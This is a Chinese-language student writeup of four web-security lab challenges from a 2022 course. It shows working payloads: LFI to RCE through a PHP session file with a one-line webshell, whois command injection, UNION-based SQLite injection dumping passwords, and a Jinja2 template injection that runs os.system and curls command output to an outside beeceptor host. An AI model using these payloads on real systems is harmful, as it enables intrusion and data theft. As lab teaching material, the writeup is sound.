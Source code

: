 # 2022 Computer Security HW9 Writeup - Web

* [HW9 github (Writeup and Payload)](https://github.com/fdff87554/Computer-Security-2022/tree/main/homework/Homework-09)

## Hello from Windows 98 - Lab
* 首先先做頁面的觀察跟嘗試，因為題目有直接給 source code 可以做觀看，因此就觀察一下，可以看到全部共有三個頁面，初始頁面 `/index.php`、接收輸入並且建立 session 的 `say.php` 頁面，還有顯示輸入資料的 `hi.php` 頁面。
* 由於題目跳轉頁面的方式是利用 `page` 這個變數接收檔名去做顯示，因此我們這邊嘗試輸入 `?page=../../../../etc/passwd` 來看看環境是否有 LFI 的漏洞，結果發現可以成功讀取檔案，又因為會建立 session，因此我們可以嘗試利用 seesion file 的 LFI 來做 RCE 的攻擊。
* 首先目標是希望 session file 會記錄到我們希望建立的木馬，因此準備 php 一句話木馬 `<?php system($_GET['cmd']); ?>`，並且利用一開始由 server 給我們的 `Set-Cookie: PHPSESSID=dbf1212bbb92456e2882440743c5914d; path=/` 確定我們檔案的 session_id 是 `dbf1212bbb92456e2882440743c5914d`，準備好 php 木馬 跟有 session file 之後，就利用 `../../../../tmp/sess_dbf1212bbb92456e2882440743c5914d&cmd=ls` 作為我們的 LFI payload 看看能不能列出 files，並如下圖成功取得 shell。
    > 會用 `&` 是因為 url 上面有兩個參數。
    > ![web-lab01-php-oneline-shell](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab01-php-oneline-shell.png)
    > ![web-lab01-php-session-file-LFI](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab01-php-session-file-LFI.png)
    > ![web-lab01-php-session-file-LFI2RCE](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab01-php-session-file-LFI2RCE.png)
* 到這裡就可以直接印出我們的 flag.txt 取得 flag: `FLAG{LFI_t0_rC3_1s_e4Sy!}`
    > ![web-lab01-ans](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab01-ans.png)


## Whois Tool - Lab
* 這題題目的 source code 非常簡單，就是會把我們的輸入 `host` 串接進 `echo 'whois "{$host}" 2>&1;';`，而且有個限制就是字串輸入不能超過 15 個字元，因此我們的目標就是要找出一個可以 bypass 這個限制的 payload。
* 概念很簡單，我們其實不在意 `whois` 的查找，而且我們希望確保我們的 payload 不會被視為 `whois` 的查找，因此我們建構了 payload `"; ls #` 來分別做到，截斷前面的 whois 查找，並且利用 `;` 做到前一個指令結束之後執行 `ls` 並且利用 `#` 註解掉剩下的部分，可以看到我們的 payload 成功執行了 `ls`，並且可以成功看到有 `flag.txt` 的檔案。
    > ![web-lab02-ls](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab02-ls.png)
* 基於上面的概念理論上我們可以直接建構 `"; cat flag.txt #` 這樣的 payload 去印出 flag.txt 來取得 flag，但題目設計的非常人性化，這邊個 payload 剛好卡在大於 15 個字元，為了減少字元的使用，這邊決定利用 `*` 萬用字元來避免長度限制，因為同目錄底下沒有其他 f 開頭的檔案了，因此可以直接利用 `"; cat f* #` 來印出 flag: `FLAG{c0mM4nd_1nj3cT10n_';whoami}`
    > ![web-lab02-ans](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab02-ans.png)
* 那因為我們還知道有其他指令串些的方式如 `&&` 用在前一個指令成功時接著執行的指令，還有 `||` 用在前一個指令失敗時的後一個指令執行的狀況，因此這邊延伸一個 payload 是 `"&& cat f* #`，會是 `&&` 而不是 `||` 的原因是因為 `"` 對 `whois` 指令的截斷，必沒有觸發 `whois` 指令的錯誤 (找不到東西不是一種錯誤，是一種結果)，因此對於我們來說要讓 `cat flag.txt` 被執行到就要利用 `&&` 來達成。
    > ![web-lab02-ans](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab02-ans-more.png)


## Normal Login Panel (Flag 1) - Lab
* 這題只有一個 login page 而且沒有太多的資訊，登入頁面我們開始嘗試 SQL Injection，但因為我們不知道這個頁面會準備怎樣的資訊給我們，因此首先要先確認回顯狀況。
* 這邊提示有給我們有一個 username 是 admin，這邊輸入錯誤的 password 會拿到 `Login faild count: 30` 這個 error message，而其他不存在的 user 則是 `User doesn't exist! Login faild count: xx`。
* 我們嘗試起手的 sql injection 可以看到當輸入 `admin' or 1=1-- #` 看到的不是 `Login faild count: xx` 而是 `User doesn't exist! Login faild count: xx`，因此可以利用 error message 的差異來做到辨識 SQL Injection 的注入狀況。
* 那這邊可以開始利用 `union select` 來猜共有幾個欄位，但這邊改用 `order by` 來猜，概念上是一樣的，在猜到 `admin' order by 5 -- #` 的時候會壞掉就可以知道共有 4 個欄位了。
* 因為現在只有 `Login faild count: xx` 的這個 xx 會把資料回顯在前端，因此現在來確認哪個欄位會把資料顯示在這邊，利用 `admin' union select NULL, NULL, NULL, 'a' -- #` 來確認第四個欄位會把資料回顯在前端。
* 那這個時候要開始猜 DBMS 是哪一種了，理論上會開始猜 table for example `user()` 是 mysql，或者交給我們的 sqlmap 好工具去爆破，那這邊講師有說是 SQLite，因此我們利用 `admin' union SELECT NULL, NULL, NULL, sql FROM sqlite_master WHERE type='table' -- #`，可以看到我們有 `users` 這個 table，裡面分別有 `id`、`username`、`password`、`count`四個欄位。
    > ![web-lab03-list-sql-info](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab03-list-sql-info.png)
* 那我們現在目標是知道 password，因此下 `admin' union SELECT NULL, NULL, NULL, password FROM users -- #` 來從 users 這張表取得 password，可以拿到 flag `FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}`。

## Normal Login Panel (Flag 2) - Lab
* 登入進去之後可以看到 srouce code，是一份 python template 並且會吃 `greet` 這個參數，並且 `return render_template_string(f"Hello {greet}")`，因此我們可以針對 `greet` 這個參數做 template injection。
    > ![web-lab04-source-code](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-source-code.png)
* 先把資料送到 Burp 的 repeater 做資料從送，這邊 encode 可以改成 body encoding 會更好整理重送資料，可以看到不管是把 `greet` 設為 `a` or `{{7*7}}` 會正確回應 `Hello a` or `Hello 49`。
* 因此依照目標是先找到任意一個東西的 class -> `__class__`，因此我們可以利用 `{{[].__class__}}` 來找到 `list` 這個 class，而 `{{[].__class__.__base__}}` 則是 `list` 的 base class，也就是 `object`，有就是回應到所有的 class 的 base 其實都是 object 這邊。
    > ![web-lab04-list-class-base](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-base.png)
* 因此目標是找到可以操作的 system command，因此我們可以利用 `{{[].__class__.__base__.__subclasses__()}}` 來找到所有的 class，因為我們希望操作 `os` 底下的 class，所以找到 `os._wrap_close` 來作為目標，找到之後可以利用 `{{[].__class__.__base__.__subclasses__()[140]}}` 來操作 `os._wrap_close` 這個 class (因為我們再 sublime 中看到他是地 141 個，也就是 list 中 index 的 140 個)。
    > ![web-lab04-list-class-subclasses](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-subclasses.png)
    > ![web-lab04-list-class-subclasses-os](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-subclasses-os.png)
* 從 `__init__` 的 `__global__` 中可以看到 `os.system` (payload: `{{[].__class__.__base__.__subclasses__()[140].__init__.__globals__}}`)，因此我們可以利用 `{{[].__class__.__base__.__subclasses__()[140].__init__.__globals__['system']}}` 來確認 system 能不能用。
    > ![web-lab04-list-class-subclasses-os-ls](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-subclasses-system.png)
* 但因為 python 的 system 不會像 php 一樣回顯，因此用 [beeceptor](https://beeceptor.com/) 來準備一個簡單的 dns 並且用 `curl <dns>` 來送資料出來，顯示 ls 的結果 payload 如下 `{{[].__class__.__base__.__subclasses__()[140].__init__.__globals__['system']('curl https://crazyfirelee.free.beeceptor.com -d "`ls -al`"')}}`，印出 flag 的 payload 如下 `{{[].__class__.__base__.__subclasses__()[140].__init__.__globals__['system']('curl https://crazyfirelee.free.beeceptor.com -d "`cat flag.txt`"')}}`: `FLAG{S1_fu_Q1_m0_b4N_zHU_ru}`。
    > ![web-lab04-list-class-subclasses-system-curl](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-subclasses-system-curl.png)
    > ![web-lab04-list-class-subclasses-system-curl-flag](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-subclasses-system-curl-flag.png)



---
###### tags: `CyberSec` `Writeup` `2022`

<style>
.navbar-brand::after { content: " × Crazyfire Lee"; }
</style>
